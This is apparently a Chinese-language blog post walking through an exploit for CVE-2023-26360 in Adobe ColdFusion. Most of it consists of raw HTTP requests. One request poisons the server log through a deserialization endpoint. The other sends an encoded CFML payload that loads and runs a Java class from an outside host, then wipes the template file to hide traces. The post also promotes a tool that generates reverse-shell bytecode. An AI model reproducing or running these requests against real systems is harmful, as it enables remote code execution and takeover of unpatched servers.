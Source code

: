 看一下日志写进去了  
  
![](https://mmbiz.qpic.cn/mmbiz_png/b76VA5DEYFBb9aiabDGjVs8fj0aOvQny7KoeC7qFDfxp6FDjgp5omZvEibpmlpwCSlibk07Uae8ATicL7Be2JNV91Q/640?wx_fmt=png&from=appmsg "")  
  
发送执行日志文件  
```
POST //cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/iedit.cfc?method=zfgea&_cfclient=trueHTTP/1.1
Host: 192.168.56.105:8500
User-Agent: Mozilla/5.0(Macintosh;IntelMac OS X 10_14_3)AppleWebKit/605.1.15(KHTML, like Gecko)Version/12.0.3Safari/605.1.15
Content-Length: 85
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Connection: close

_variables={"_metadata":{"classname":"l/../logs/coldfusion-out.log"},"_variables":[]}
```  
  
看一下效果  
### 自动化生成工具  
  
上面的功能实现起来是非常非常麻烦的我写了一个自动化生成的工具，构建java的字节码文件，然后设置反弹的IP和端口，然后开启web  
  
然后我写一个工具项目地址：关注公众号回复CVE-2023-26360  
  
工具使用  
```
工具名称 -host 指定反弹IP -port 指定反弹端口 -p 指定http端口（默认8888）
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/b76VA5DEYFBb9aiabDGjVs8fj0aOvQny7PtW1ugCibymVibx0JMic9hWVKPcK7K19vxSiaFAGUy4ibJxyCaLVGxIB9lw/640?wx_fmt=png&from=appmsg "null")  
  
看一下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/b76VA5DEYFBb9aiabDGjVs8fj0aOvQny7FrtqZn5aHhtPjsRAA4oZ7ia9hjXhMeFErbyPeaEMB2Noa6CdvFNlSeQ/640?wx_fmt=png&from=appmsg "null")  
  
然后我们请求写入日志错误代码，下面的post的数据部分的http://192.168.191.58:8888/GjfZgo改成服务启动在的地址  
```
POST //cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/iedit.cfc?method=zfgea&_cfclient=trueHTTP/1.1
Host: 192.168.56.105:8500
User-Agent: Mozilla/5.0(Macintosh;IntelMac OS X 10_14_3)AppleWebKit/605.1.15(KHTML, like Gecko)Version/12.0.3Safari/605.1.15
Content-Length: 816
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Connection: close

_variables=%7b%3ccftry%3e%3ccfset%20szlh%20%3d%20createObject%28%27java%27%2c%27java.net.URL%27%29.init%28%27http://192.168.191.58:8888/GjfZgo%27%29/%3e%3ccfset%20cafb%20%3d%20createObject%28%27java%27%2c%27java.lang.reflect.Array%27%29/%3e%3ccfset%20ireh%20%3d%20cafb.newInstance%28szlh.getClass%28%29%2c1%29/%3e%3ccfset%20cafb.set%28ireh%2c0%2cszlh%29/%3e%3ccfset%20fxlt%20%3d%20createObject%28%27java%27%2c%27java.net.URLClassLoader%27%29.init%28ireh%2cjavaCast%28%27null%27%2c%27%27%29%29/%3e%3ccfset%20fxlt.loadClass%28%27code.Payload%27%29.newInstance%28%29.main%28javaCast%28%27null%27%2c%27%27%29%29/%3e%3ccfcatch%20type%3d%27any%27%3e%3c/cfcatch%3e%3ccffinally%3e%3ccffile%20action%3d%27write%27%20file%3d%27%23GetCurrentTemplatePath%28%29%23%27%20output%3d%27%27%3e%3c/cffile%3e%3c/cffinally%3e%3c/cftry%3e
```  
  